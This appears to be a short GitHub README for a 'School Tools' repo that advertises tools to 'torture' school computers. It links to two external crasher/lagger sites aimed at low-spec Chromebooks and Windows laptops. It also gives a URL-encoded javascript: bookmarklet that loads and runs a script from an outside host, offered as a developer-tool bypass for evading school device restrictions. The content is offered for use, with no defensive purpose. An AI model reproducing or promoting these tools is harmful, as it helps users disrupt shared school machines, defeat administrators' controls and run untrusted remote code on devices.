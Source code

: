# School Tools (C) 2021 - present Stiizzy Cat

A repo full of tools to torture School!




## Documentation
> School Laptop Laggers (Must be low spec chrome OS & windows systems)
+ [Crasher](http://bongo-hates-python.cf/) ```http://bongo-hates-python.cf/```
+ [Crasher/lagger](https://crash.drugs4children.org/) ```https://crash.drugs4children.org/```

> Developer Tool Bypasses
```JS 
javascript:(function()%7Bfunction%20callback()%7Bconsole.log(%22FUNNY%22)%7Dvar%20s%3Ddocument.createElement(%22script%22)%3Bs.src%3D%22https%3A%2F%2Fanimetitties.net%2FGetsource.js%22%3Bif(s.addEventListener)%7Bs.addEventListener(%22load%22%2Ccallback%2Cfalse)%7Delse%20if(s.readyState)%7Bs.onreadystatechange%3Dcallback%7Ddocument.body.appendChild(s)%3B%7D)())()
```

+ [Soon](https://github.com/StiizzyCat/SchoolTools)
